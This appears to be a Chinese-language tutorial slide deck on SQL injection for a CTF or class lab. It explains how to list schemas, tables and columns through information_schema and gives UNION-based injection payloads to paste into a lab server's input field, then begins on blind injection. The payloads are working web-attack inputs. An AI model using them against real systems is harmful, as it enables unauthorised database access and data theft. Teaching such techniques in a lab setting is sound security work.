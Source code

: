 
`select column_name from information_schema.columns where table_schema = 'test' and table_name = 'test';`

像這個就能列出 test 這個資料庫底下的 test 這張表裡面的所有欄位名稱

---

通常會直接使用 columns

反正 tables 有的東西他都有 (以我們的需求來說)

---

你也可以故意讓前一個找不到任何東西

後面接你要找的東西

---

```sql
select * from `Users` where user = 'admin' and password = md5('meow')
 union select 'a','a', schema_name FROM information_schema.schemata limit 3
```

![](https://i.imgur.com/Kl7DyJ0.png)

---

把這行貼到
<http://140.134.25.138:10014/>

`'  union select 'a','a', schema_name FROM information_schema.schemata ;`
![](https://i.imgur.com/fUGtidb.png)

---

`'  union select 'a','a', table_name FROM information_schema.tables;`

---

然後再貼這行
`'  union select 'a','a', column_name  FROM information_schema.columns WHERE table_name = 'ctf';`
![](https://i.imgur.com/DIb3Auh.png)

---

這樣就可以找到你要找的資料位子

---

最後一個，如果sql注入只知道對或錯
不知道裡面的資料是甚麼怎麼dump出資料

---

 SQL 是允許把一個 query 的結果當成另一個 query 或是函式的參數

---
